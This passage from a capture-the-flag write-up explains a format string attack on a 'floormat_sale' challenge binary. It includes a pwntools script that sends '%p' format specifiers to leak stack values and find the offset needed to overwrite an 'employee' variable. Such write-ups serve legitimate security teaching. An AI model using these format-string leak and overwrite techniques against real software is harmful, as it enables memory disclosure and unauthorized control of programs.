 The function is called when we use the menu option `6`. There's nothing in the code that will ever change the `employee` variable, hopefully this is a hint you need to overwrite that variable.

I've covered format string write attacks on my [youtube](https://www.youtube.com/watch?v=iwNYoDw1hW4) a few times so I'll not do repeat myself in detail here. We already know the location of the variable we want to overwrite (PIE is disabled, we can get it from assembly or reference directly in `pwntools`) and what we want to overwrite it with (anything but `0`). The only thing we need to know is the offset of where our input will land, and we can find that with a fuzzing script.

### fuzz.py

{% code overflow="wrap" %}
```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
b *employee_access
continue
'''

# Set up pwntools for the correct architecture
exe = './floormat_sale'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

leak_count = 29

# Start program
io = start()

# Choose the Employee-only mat (option 6) to trigger the correct flow
io.sendlineafter(b'Enter your choice:', b'6')

# Wait for the prompt to enter the shipping address
io.recvuntil(b'Please enter your shipping address:')

# Generate a payload that will leak multiple stack values at once (up to 30)
payload = b" ".join([f"AAAA %{i}$p".encode()
                    for i in range(1, leak_count)])
io.sendline(payload)

# Receive the text, so that we don't mess up position of leaked values
io.recvlines(2)

# Receive and print the response to analyze the leaked values
# Decode with 'replace' to avoid crashing on non-ASCII bytes
response = io.recvall().decode(errors="replace")

# Split the response to process each value separately
leaked_values = response.split()
```